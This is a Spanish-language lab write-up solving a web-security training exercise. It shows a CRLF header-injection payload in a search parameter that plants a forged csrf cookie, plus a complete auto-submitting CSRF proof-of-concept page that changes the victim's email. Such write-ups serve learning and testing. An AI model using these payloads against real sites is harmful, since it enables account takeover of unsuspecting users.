 `TAREA:`
Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: `wiener:peter`

como siempre iniciamos sesión en el lab con las credenciales que nos proporcionan e interceptamos la solicitud para luego enviarla al repeater
![[Pasted image 20250710162852.png]]

después de interceptar la solicitud la enviamos al repeater y podemos tirar (Drop) la intercepción para no realizar ningún cambio 

podemos ver que tenemos tanto la `cookie` de inicio de sesión como el `csrf`
![[Pasted image 20250710163229.png]]

ahora realizamos una búsqueda y analizamos la solicitud para identificar sus parámetros
![[Pasted image 20250710163311.png]]

una ves tenemos la solicitud la enviamos al repeater para analizar la respuesta del lado del servidor. en este caso tenemos una respuesta `200 OK` y nos devuelve el parámetro `Set-cookie: LastSearchTerm` esta cookie contiene el parámetro de nuestra ultima búsqueda es decir `test` así que vamos a validar esto y si no cumple con la validación correcta podemos explotar esta vulnerabilidad y generar una cabecera dinámica que contenga el parámetro `Set-cookie`
![[Pasted image 20250710163437.png]]

realizamos la validación correspondiente y efectivamente obtenemos una respuesta `200 OK` donde el parámetro `Set-Cookie` contiene el valor `csrf:test`

la inyección del encabezado nos quedaría así:
```python
GET /?search=test%0d%0aSet-Cookie:%20csrf=test HTTP/2
```

por ejemplo también podrías crea una URL que use esta vulnerabilidad para inyectar una URL falsa. `csrf`cookie en el navegador de la víctima.

```python
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

![[Pasted image 20250710164155.png]]

ahora lo que tenemos que hacer es ir a la solicitud que contiene nuestra función de actualización de correo electrónico y vamos a generar un CSRF PoC 
![[Pasted image 20250710164512.png]]

primero vamos e eliminar la función de las etiquetas `<script>` para poder hacer uso de nuestra inyección 
![[Pasted image 20250710164700.png]]

ahora solo nos queda inyectar una fuente de imagen que haga un llamado a la url que será la web + el encabezado que hemos construido. nos quedaría algo así: 

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="t7TLNlTl0JbLuxmo3xN0Gn3XxKZpwwfz" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

donde
```python
<img src="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
seria nuestra inyección completa y maliciosa

`NOTA: Recuerda camviar tu valor de csrf token. por el valor de csrf  ` 
![[Pasted image 20250710165217.png]]